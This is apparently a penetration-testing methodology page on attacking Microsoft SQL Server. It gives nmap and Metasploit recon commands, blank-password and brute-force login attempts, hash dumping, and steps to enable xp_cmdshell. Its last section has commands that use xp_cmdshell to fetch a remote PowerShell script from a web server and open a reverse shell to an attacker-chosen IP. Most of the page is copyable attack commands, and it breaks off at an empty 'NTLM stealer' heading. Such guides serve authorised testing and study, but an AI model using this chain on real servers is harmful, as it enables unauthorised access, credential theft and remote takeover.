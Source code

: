 # MSSQL - Methodology

### Network scan

`nmap` can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -sV -sC -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The `nmap` `ms-sql-info.nse` script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The `metasploit` `auxiliary/scanner/mssql/mssql_ping` module attempts to
retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the `nmap` nse script
`ms-sql-empty-password.nse` can be used to quickly try to connect using the
"sa" account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The `Metasploit` `auxiliary/scanner/mssql/mssql_login` module can be used to
brute force credentials for the service. The "BLANK_PASSWORDS" option is worth
setting to "true".  

The `patator` tool can be used as well to brute force credentials on the
service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The `sqsh` Linux utility as well as the `impacket` Python script
`mssqlclient.py` can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>

# -db is optional and defaults to "None"
mssqlclient.py -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Windows authentication using the provided credentials
mssqlclient.py -windows-auth -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>

# Kerberos authentication
mssqlclient.py -k -dc-ip <DC_IP> -db <DB_NAME> <DOMAIN | WORKGROUP>/<USERNAME>:<PASSWORD>@<HOSTNAME | IP>
```

The `DBeaver` GUI tool can be used to simply access the database content
without knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the `nmap`
nse script `ms-sql-dump-hashes.nse` can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
`John-the-ripper`.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function. The *xp_cmdshell* function is deactivated by default
from SQL Server 2000 and upwards and needs to be activated.  

The following query can be used to manually activate it given the account used
has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The SQL queries above can be made using the `sqsh` Linux utility as well as
the `impacket` Python script `mssqlclient.py`. The `mssqlclient.py` client
integrates the `enable_xp_cmdshell` and `xp_cmdshell` commands to automatically
enable xp_cmdshell and execute command through it.

```
# mssqlclient.py ...
SQL> enable_xp_cmdshell
SQL> xp_cmdshell <CMD>
SQL> sp_start_job <CMD>
```

In order to execute command through a system shell, the `PowerShell` `Nishang`'s
`Invoke-PowerShellTcp.ps1` can be used.

Once a web server hosting the `PowerShell` script and a listener are up and
running, the following commands can be used to download and execute the script
through the MS SQL service:

```
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>;"

# Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port> must be added at the end of the script
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1')"
```

The `Metasploit` module `exploit/windows/mssql/mssql_payload` automates the
tasks above to deploy a payload, such as a reverse `meterpreter`, on the server
through the MS SQL service.

### NTLM stealer
